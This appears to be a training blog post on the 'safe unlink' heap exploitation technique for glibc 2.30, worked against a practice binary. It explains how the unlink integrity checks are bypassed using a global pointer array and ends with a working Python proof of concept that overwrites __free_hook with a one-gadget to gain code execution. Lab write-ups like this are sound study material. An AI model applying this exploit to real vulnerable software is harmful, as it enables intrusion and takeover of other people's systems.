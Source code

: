 ```yaml
---
layout: post
title:  "HeapLAB 1 - Safe Unlink"
date:   2022-12-07 20:01:01 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## Exploitation

The modern version of the unlinking technique, `safe unlink`, is abit more complex, as mitigations were added. 

The new partial unlinking algorithm introduces 3 new integrity checks:

1. `chunksize(p) != prev_size(next_chunk(p))`
In case we control the `prev_size` of the next chunk, this can be easily bypassed. 

2. `fd->bk != p || bk->fd != p`
This is an harsh mitigation. \
We either have to write near the fake target addresses: `bk, fd` ptrs that points back to the chunk being freed. \
Another option is to find memory regions that contains pointers towards `p`. 

3. `p->fd_nextsize->bk_nextsize != p || p->bk_nextsize->fd_nextsize != p`
This is only relevant for `largebins`, similar to the above. 

The example binary contains a `glibc = 2.30`, with `NX, ASLR, Full RELRO, canary`. 

Note that there are also pointers of the heap stored at the `.bss`, within the `m_array` variable. \
The trick is to use these pointers, so that the `safe_unlink` checks may pass. 

As with the `unsafe unlink`, after a successful unlinking, the following 2 writes would occur:

```c
*(A->bk + 0x10) = A->fd;
*(A->fd + 0x18) = A->bk;
```

Moreover, the two new constraints due to the improved mitigation are (assuming the `size` check can be easily bypassed):

```c
(A->bk)->fd == A
(A->fd)->bk == A
```

Meaning:

```c
*(A->bk + 0x10) == A
*(A->fd + 0x18) == A
```

So there would be a total of 2 writes, and 2 constraints. 

Recall that the writes are only being made after the constraints have succesfully passed. \
So it *DOESN'T* mean the solution must enforce the following criteria: `A->fd == A->bk == A`.

Note that it is actually pretty common to see global pointers towards the heap. \
On our example binary, we have `m_array`, which is a global pointer at `0x602060`, that stores the value of `A` address, `0x603010`. \
(Note that this is the `user_content` part memory address, not the full chunk's start address! \
we will fix this by referring the chunk as being started 0x10 bytes away from its real start address, `0x603000`). 

In case we set `A->fd + 0x18` to the address of `m_array`, the last check should would pass - because `*(0x602060) == 0x603010`. \
The same holds for `A->bk + 0x10`. \

So the two constraints are being translated to:

```c
A->bk = &m_array - 0x10
A->fd = &m_array - 0x18
```

This would result with corrupting the quadword at `&m_array` with the value of `&m_array - 0x18` (as it is being the last write), and succesfully unlinking the consolidated chunk. 

As said, we must make sure that the global pointer, `m_array`, points towards the *real* chunk heap address, and not only to its `user_data` part. 

In order to overcome this, recall that we control `prev_size` field of the freed chunk. \
Since Malloc uses this field to determine the previous chunk start address, we can trick it so that it will think the chunk starts 0x10 bytes after its real address. 

Now, recall that after the unlink has occured, `m_array[0] = &m_array - 0x18`. \
It means the `m_array` would contain a pointer towards the `.bss`, instead of the heap. \
A simple request to write to index 0 of the array results with an overflow of the `target` address.

Full RCE POC:

```python
# Request 2 small chunks.
chunk_A = malloc(0x88)
chunk_B = malloc(0x88)

# Prepare fake chunk metadata - this setting of fd and bk is required to bypass the new mitigations
fd = elf.sym.m_array - 0x18
bk = elf.sym.m_array - 0x10
# We have to fake the previous allocated chunk size to 0x10 bytes below its original size, because m_array points at its user_content, not the chunk's start
prev_size = 0x80
# Set PREV_INUSE = 0, although the previous chunk IS allocated! this will allow the chunks consolidation
fake_size = 0x90

# Set new prev_size and size
chunk_a_prev_size = p64(0)
# Because of the size mitigation, it must match with the prev_size of the next chunk, which we set to 0x80 above
chunk_a_size = p64(0x80)  
# Note the total length of chunk_A should now appear as a total of 0x80
edit(chunk_A, chunk_a_prev_size + chunk_a_size + p64(fd) + p64(bk) + p8(0)*0x60 + p64(prev_size) + p64(fake_size))

# Trigger consolidation of chunk_A (because it is marked as not used), thus unlinking it
free(chunk_B)

# Now m_array[0] points to the .bss instead of the heap, overwrite it with our target address
edit(0, b"A" * 0x18 + p64(libc.sym.__free_hook))

# Overwrite the target data with onegadget
edit(0, p64(libc.address + 0xe1fa1))

# Trigger onegadget
free(chunk_A)
```
